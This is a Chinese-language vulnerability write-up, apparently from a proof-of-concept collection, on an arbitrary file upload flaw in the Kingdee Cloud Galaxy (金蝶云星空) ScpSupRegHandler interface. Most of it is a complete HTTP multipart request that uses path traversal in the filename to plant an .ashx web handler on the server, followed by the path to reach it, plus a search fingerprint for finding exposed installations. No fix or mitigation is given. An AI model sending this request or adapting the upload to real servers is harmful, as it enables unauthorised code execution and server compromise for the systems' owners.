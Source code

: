 # 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

## 漏洞描述

金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>金蝶OA 云星空</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金蝶云星空-管理中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f-9419221.png)

验证POC

```php
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![img](../../../.vuepress/public/img/1699164389355-666b828b-1f8c-42ae-8ac3-08f60743488e.png)

```php
/K3Cloud/uploadfiles/Test.ashx
```